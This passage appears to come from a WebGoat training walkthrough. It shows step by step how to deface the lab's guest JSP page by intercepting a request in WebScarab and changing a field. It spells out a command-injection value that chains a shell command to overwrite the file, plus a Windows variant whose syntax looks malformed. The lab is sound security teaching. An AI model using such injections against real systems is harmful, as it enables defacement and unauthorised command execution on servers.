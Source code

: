    
   - Remember, our present working directory is `/var/lib/tomcat6`. Therefore, the relative path is `webapps/WebGoat/webgoat_challenge_guest.jsp`.
   
**Now it's your turn**   

 Now that we know where the webpage is, let's inject some text and deface it.

   - Click **TCP**, then click the **View Network** button to send the request to WebScarab.
   
   - Modify the Value field with the following command injection:
   
      - `tcp && cd webapps/WebGoat && echo you_have_been_hacked > webgoat_challenge_guest.jsp`
      
        - **Note**: Window users, type the following: `tcp && echo 'test' >; C:\Users\user\Downloads\.extract\webapps\WebGoat\webgoat_challenge_guest.jsp`
      
   - Click **Accept Changes** in WebScarab.
      
        ![deface command](Images/challenge_3/webscarab_deface_injection_command.png)
      
   - In the next window, click **Accept Changes** two more times.
      